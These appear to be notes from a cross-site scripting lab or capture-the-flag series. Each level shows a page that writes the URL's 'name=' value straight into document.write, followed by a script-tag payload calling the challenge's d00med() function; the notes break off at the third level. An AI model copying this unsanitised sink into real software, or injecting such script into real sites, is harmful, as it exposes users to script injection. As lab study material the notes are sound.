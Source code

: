 
---

# simple_noHead

> This is a very classic html injection, you actually need to inject a script and call d00med()

![[Pasted image 20241222003750.png]]

```js
<script>
var pos=document.URL.indexOf("name=")+5;
var username = unescape(document.URL.substring(pos,document.URL.length));
var r='<b>'+username+'</b>'
document.write(r);
</script>
```

payload
```js
<script>d00med()</script>
```

![[Pasted image 20241222004037.png]]

# simplesst_1
---
> This is a very classic html injection, you actually need to inject a script and call d00med()

![[Pasted image 20241222004300.png]]

```js
var pos=document.URL.indexOf("name=")+5;
var username = unescape(document.URL.substring(pos,document.URL.length));
var m='<b>'+username+'</b>'
document.write(m);
```

payload
```js
<script>d00med()</script>
```

![[Pasted image 20241222004355.png]]


# simplest_2
---
> This is a very classic html injection. In this case script tag won't work and call d00med()

![[Pasted image 20241222004516.png]]
